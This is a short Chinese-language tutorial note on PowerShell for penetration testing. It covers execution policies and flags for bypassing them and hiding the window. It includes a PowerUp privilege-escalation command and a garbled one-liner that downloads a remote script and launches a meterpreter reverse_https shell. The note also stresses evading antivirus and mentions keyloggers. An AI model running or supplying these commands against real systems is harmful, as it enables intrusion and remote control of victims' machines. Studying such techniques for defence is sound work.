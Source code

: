 ```yaml
---
title: powershell
tags: tools
---
```


# 1.powershell脚本特点

在内存中运行 不需要写入磁盘
可以远程执行 几乎不触发杀毒软件
cmd.exe运行通常会被阻止,但是powershell运行通常不会被阻止
可以用于管理AD

# 2.执行策略 

powershell默认情况下不能执行脚本
`Get-Host` 查询当前ps版本

![image-20220204235652182](https://raw.githubusercontent.com/aloha1024/image/main/img/image-20220204235652182.png)

`Get-ExecutionPolicy`查询当前策略

![image-20220204235754058](https://raw.githubusercontent.com/aloha1024/image/main/img/image-20220204235754058.png)

powershell脚本策略有四种

1.`Restricted `

脚本不能被执行(默认)

2.`RemoteSigned `

在本地创建的脚本可以运行,从网上下载的不能运行(持有数字证书签名的除外)

3.`AllSigned `

仅当脚本由受信任的发布者签名时才能运行

4.`Unrestricted `

允许所有脚本运行

使用`Set-ExecutionPolicy <policy name>`设置powershell 执行策略

```powershell
powershell.exe -exec bypass -Command "& (Import-Module C:\PowerUp.ps1; Invoke-Allchecks)"
 
powershell.exe -ExecutionPolicy Bypass-WindowsStyle Hidden-NoProfile-NonIIEX(New-ObjectNet.WebClient).DownloadString("http://localhoat:8080"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.1 -Lport 80
```



 

`-ExecutionPlicy Bypass (-Exec Bypass)`

绕过执行安全策略(默认情况下ps的安全策略规定ps不能运行命令和文件)

`-WindowStyle Hidden (-W Hidden)`

隐藏窗口

`-NonInteractive (-NonI)`

非交互模式 PowerShell 不为用户提供交互式的提示。

`-NoProfile(-NoP)PowerShell `

控制台不加载当前用户的配置文件。

`-noexit`

执行后不退出Shell。这个参数在使用键盘记录等脚本时非常重要。

`-NoLogo`

启动不显示版权标志的PowerShell。
